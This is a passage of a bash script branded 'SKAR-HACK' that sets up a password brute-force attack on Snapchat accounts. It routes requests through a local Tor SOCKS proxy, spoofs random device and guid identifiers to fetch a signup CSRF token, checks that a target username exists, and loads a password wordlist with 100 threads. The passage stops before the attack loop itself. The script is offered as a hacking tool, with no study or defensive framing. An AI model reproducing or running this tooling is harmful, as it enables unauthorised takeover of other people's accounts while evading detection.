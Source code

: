 gvi6i@@ -0,0 +1,599 @@
#!/bin/bash
trap 'store; exit 1;' 2
counter=0
counter2=20
counter3=40
counter4=60
counter5=80
start=0
end=20
turn=$((start+end))
startline=1
endline=20
sumstart=0
string4=$(openssl rand -hex 32 | cut -c 1-4)
string8=$(openssl rand -hex 32  | cut -c 1-8)
string12=$(openssl rand -hex 32 | cut -c 1-12)
string16=$(openssl rand -hex 32 | cut -c 1-16)
device="android-$string16"
uuid=$(openssl rand -hex 32 | cut -c 1-32)
phone="$string8-$string4-$string4-$string4-$string12"
guid="$string8-$string4-$string4-$string4-$string12"
var0=$(curl --socks5 localhost:9051 -i -s -H "$header" https://accounts.snapchat.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=$uuid > /dev/null)
var2=$(echo $var0 | grep -o 'csrftoken=.*' | cut -d ';' -f1 | cut -d '=' -f2)
banner() {
printf "\e[1;95m                             ______           \e[0m\n"
printf "\e[1;95m                          .-        -.         \e[0m\n"
printf "\e[1;95m                         / SKAR-HACK  \         \e[0m\n"
printf "\e[1;95m                           ---------             \e[0m\n"
printf "\e[1;95m                        |,  .-.  .-.  ,|         \e[0m\n" 
printf "\e[1;77m                        | )(_ /  \_ )( |             \e[0m\n"
printf "\e[1;77m                        |/     /\     \|               \e[0m\n"
printf "\e[1;91m              (@_       <__    ^^    __>                          \e[0m\n"
printf "\e[1;91m         _     ) \_______\__|IIIIII|__/________________________     \e[0m\n"
printf "\e[1;91m        (_)@8@8{}<________ ____________________________________>     \e[0m\n"
printf "\e[1;91m               )_/         \ IIIIII /                                  \e[0m\n"
printf "\e[1;91m              (@            --------                                   \e[0m\n"
printf "\e[1;91m                   SKAR HACK (Telegram-skar44)  \e[0m\n" 
}
function start() {
read -p $'\e[1;92mUsername account: \e[0m' user
checkaccount=$(curl -L -s https://www.snapchat.com/$user/ | grep -c "the page may have been removed")
if [[ "$checkaccount" == 1 ]]; then
printf "\e[1;91mInvalid Username! Try again\e[0m\n"
sleep 1
start
else
default_wl_pass="passwords.lst"
read -p $'\e[1;92mPassword List (Enter to default list): \e[0m' wl_pass
wl_pass="${wl_pass:-${default_wl_pass}}"
default_threads="100"
threads="${threads:-${default_threads}}"
fi
}
checkroot() {
if [[ "$(id -u)" -ne 0 ]]; then
    printf "\e[1;77mPlease, run this program as root!\n\e[0m"
    exit 1
fi
}
dependencies() {